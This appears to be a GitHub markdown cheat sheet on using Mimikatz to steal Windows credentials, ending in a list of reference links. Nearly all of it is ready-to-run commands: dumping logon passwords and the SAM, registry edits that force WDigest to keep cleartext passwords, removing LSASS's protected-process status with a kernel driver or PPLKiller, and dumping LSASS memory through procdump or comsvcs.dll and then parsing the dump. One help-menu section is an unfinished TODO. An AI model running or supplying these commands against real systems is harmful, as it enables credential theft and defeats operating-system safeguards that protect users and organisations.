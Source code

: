 # Mimikatz

## 01 - Setup

```
PS C:\> Invoke-WebRequest -UseBasicParsing -Uri https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -OutFile mimikatz_trunk.zip
Expand-Archive .\mimikatz_trunk.zip
cd mimikatz_trunk\x64
.\mimikatz.exe
```

## 02 - Help Menu

TODO: Copy and paste the help menu for mimikatz

```
mimikatz # ::
```

## 03 - Usage

### 3.1 - LogonPasswords

Make sure the `SeDebugPrivilege` is enabled

```
C:\> whoami /priv
Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Enabled

mimikatz # privilege::debug
Privilege '20' OK
```

Audit by logging the file

```
mimikatz # log credentials.txt

mimikatz # sekurlsa::logonpasswords
```

If you receive this error

```
mimikatz # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061
```

Go to the **Group Policy Management Editor** -> Windows Settings -> Security Settings -> Local Policies -> User Rights Assignment -> Debug programs -> then uncheck the box **"Define these policy settings:"**

### 3.2 - SAM

```
mimikatz # lsadump::sam
```

### 3.3 - Enable Wdigest

Otherwise another way around it is to dump with **WDigest**

```
mimikatz # sekurlsa::wdigest
```

If you receive this error

```
mimikatz # sekurlsa::wdigest
ERROR kuhl_m_privilege_acquireLSA ; Handle on memory (0x00000005)
```

Simply downgrades to enable mimikatz to retrieve the credentials of the windows workstation

```
C:\> reg add "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f

PS C:\> Set-ItemProperty -Force -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" -Name "UseLogonCredential" -Value "1"
```

### 3.4 - Disable LSA Protection

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_privilege_acquireLSA ; Handle on memory (0x00000005)
```

`C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL`

```
PS C:\> Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Lsa -Name "RunAsPPL"

RunAsPL     : 1
```

- Method 1:

```
mimikatz # !+
```

Create and start a `mimidrv` service

```
C:\> sc create mimidrv binpath= C:\path\to\mimidrv.sys type= kernel start= demand

C:\> sc start mimidrv
```

```
mimikatz # !processprotect /process:lsass.exe /remove

mimikatz # privilege::debug

mimikatz # sekurlsa::logonpasswords

mimikatz # !processprotect /process:lsass.exe

mimikatz # !-
```

- Method 2:

```
C:\> PPLKiller.exe /installDriver

C:\> PPLKiller.exe /disableLSAProtection

C:\> PPLKiller.exe /uninstallDriver
```

### 3.5 - Dump LSASS Process

Check if the LSASS process is present

```
C:\> tasklist /fi "imagename eq lsass.exe"

PS C:\> get-process lsass
```

#### 3.5.1 - Dump the process memory

- **Method 1:** Use the legit sysinternal tool

```
C:\> procdump.exe /accepteula -ma <lsass_pid> hashmem.dmp

C:\> procdump.exe /accepteula -ma lsass.exe hashmem.dmp
```

- **Method 2:** Living off the Land technique

```
C:\> rundll32 comsvcs.dll,Minidump "<lsass_pid> hashmem.dmp full"

PS C:\> rundll32.exe comsvcs.dll,Minidump ((Get-Process lsass).Id) hashmem.dmp full

C:\> c:\windows\system32\rundll32.exe c:\windows\system32\comsvcs.dll,Minidump <lsass_pid> hashmem.dmp full
```

#### 3.5.2 - Dump credentials

- **Method 1:** Using pypykatz

```
$ pypykatz lsa minidump hashmem.dmp

$ pypykatz lsa -k /path/to/file_creds minidump hashmem.dmp
```

- **Method 2:** Directly dump credentials in mimikatz

```
mimikatz # sekurlsa::minidump hashmem.dmp
```

Create a log file

```
mimikatz # log dumpcreds.txt

mimikatz # sekurlsa::logonpasswords
```

---
## References

- [Active Directory Security: Unofficial Guide to Mimimkatz & Command Reference](https://adsecurity.org/?page_id=1821)

- [IgniteTechnologies: Credential Dumping](https://github.com/Ignitetechnologies/Credential-Dumping)

- [Hacking Articles: Credential Dumping Wdigest](https://www.hackingarticles.in/credential-dumping-wdigest/)

- [Russian Government Cyber Activity Targeting Energy and Other Critical Infrastructure Sectors](https://datasecurity.ucsf.edu/news/russian-government-cyber-activity-targeting-energy-and-other-critical-infrastructure-sectors)

- [HarmJ0y: Invoke-WdigestDowngrade.ps1](https://gist.github.com/HarmJ0y/8fdd2d3acfbe79b730db)

- [LSASS RunAsPPL](https://itm4n.github.io/lsass-runasppl/)

- [PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller)

- [PPLdump](https://github.com/itm4n/PPLdump)

- [LOLBAS: Comsvcs](https://lolbas-project.github.io/lolbas/Libraries/Comsvcs/)

- [WhiteOakSecurity: Attack Defenses Dumping LSASS no Mimikatz](https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/)

- [Configuring Additional LSA Protection](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection)

- [RedTeamRecipe: 64 Methods For Execute Mimikatz](https://redteamrecipe.com/64-methods-for-execute-mimikatzrtc0003)